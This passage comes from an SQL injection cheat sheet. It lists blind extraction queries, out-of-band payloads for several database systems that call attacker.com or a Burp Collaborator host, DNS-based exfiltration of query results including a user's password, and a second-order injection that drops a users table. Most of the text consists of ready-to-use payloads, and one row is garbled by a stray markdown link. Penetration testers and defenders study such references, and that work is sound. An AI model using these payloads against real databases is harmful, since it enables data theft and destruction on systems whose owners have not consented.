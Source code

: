 More structured loop for automation:

```sql
SELECT ASCII(SUBSTR((SELECT user()),1,1)) > 100
```

→ Can be used to binary search characters (faster).

### **Out-of-Band (OOB) SQLi**

| DBMS | Payload Example |
| --- | --- |
| MSSQL | `exec master..xp_dirtree '\\attacker.com\pwned'` |
| Oracle | `SELECT UTL_HTTP.REQUEST('http://attacker.com') FROM dual;` |
| PostgreSQL | `COPY (SELECT '') TO PROGRAM 'nslookup attacker.com';` |

Requires attacker-controlled server + Burp Collaborator / DNS log.

### DNS Lookup (Out-of-Band)

| DBMS | Payload |
| --- | --- |
| Oracle | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| MSSQL | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |
| PostgreSQL | `COPY (SELECT '') TO PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL | `LOAD_FILE('\\BURP-COLLABORATOR-SUBDOMAIN\a')` or `SELECT ... INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

### DNS Lookup with Data Exfiltration

| DBMS | Payload |
| --- | --- |
| Oracle | SELECT UTL_HTTP.REQUEST('[http://attacker.com/?q='||](http://attacker.com/?q=%27%7C%7C)(SELECT password FROM users WHERE rownum=1)) FROM dual; |
| MSSQL | `DECLARE @p VARCHAR(1024); SET @p=(SELECT YOUR_QUERY); EXEC('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR/a"')` |
| PostgreSQL | Use plpgsql function with `COPY TO PROGRAM 'nslookup ...'` and dynamic execution |
| MySQL | `SELECT YOUR_QUERY INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'` (Windows only) |

> These techniques may require privileges and attacker-controlled DNS listener (e.g., Burp Collaborator).
> 

### **Second-Order SQLi Example**

1. Submit `username = '); DROP TABLE users; --`
2. Input is stored safely in DB
3. Later retrieved in unsafe query:
    
    ```sql
    SELECT * FROM logins WHERE username = '$stored_value';
    ```
    